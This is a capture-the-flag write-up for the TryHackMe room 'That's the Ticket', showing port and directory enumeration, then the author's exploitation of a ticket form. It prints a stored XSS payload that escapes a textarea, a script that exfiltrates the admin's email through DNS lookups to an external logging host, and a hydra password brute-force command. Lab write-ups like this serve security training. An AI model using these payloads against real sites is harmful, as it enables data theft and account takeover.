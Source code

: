 # That's the Ticket

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/thatstheticket) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 12:52 IST
Nmap scan report for 10.10.118.129
Host is up (0.15s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 361.51 seconds
```

### Gobuster

```bash
$ gobuster dir -u http://10.10.118.129/ -t 50 -w /usr/share/wordlists/dirb/big.txt -x php,txt,js -b 302,404
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.118.129/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   302,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,php,txt
[+] Timeout:                 10s
===============================================================
2021/06/10 12:53:59 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 1549]
/register             (Status: 200) [Size: 1774]
                                                
===============================================================
2021/06/10 12:58:04 Finished
===============================================================
```

--- 

## Exploiting Create Ticket 

- The text field for creating ticket was accepting **DOM elements**.
- Create a ticket as follows:

```html
</textarea>
<img src="http://b84718867c264a0ac68b4099156f3c89.log.tryhackme.tech">
<textarea>
```

![DNS lookups](Images/ThatstheTicket-dns.png)

- And also in the DNS lookup tool provided by tryhackme, there were lookups for the **A and AAAA records** from *unknown IP*. There were no HTTP requests from that IP!
- It must have been from the **Admin**!

## Exploiting DNS lookups

- So, we must exfiltrate the admin's email via DNS lookups.
- We can fetch email from the innerHTML of the `email` DOM element.
- And then append the email as a subdomain. (Classic DNS exfiltration)!
    - **NOTE:** We need to replace the `@` and `.` characters in the email.
- Submit the following script as the ticket:

```html
</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'X');
email = email.replace('.', 'Y');
fetch('http://'+ email + '.b84718867c264a0ac68b4099156f3c89.log.tryhackme.tech');
</script>
<textarea>
```

- We can get back the admin's email in the DNS lookup:

![Admin's Email in DNS lookup](Images/ThatstheTicket-admin.png)

---

## Bruteforcing the password

- Use `hydra` or `Burp intruder` to bruteforce the password: 

```bash
$ hydra -l "<REDACTED>.thm" -P /usr/share/wordlists/rockyou.txt 10.10.118.129 http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 13:38:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.118.129:80/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination
[..snip..]
[80][http-post-form] host: 10.10.118.129   login: <REDACTED>.thm   password: <REDACTED>
[..snip..]
```


## Flag inside Ticket 1

![Admin's Email in DNS lookup](Images/ThatstheTicket-ticket.png)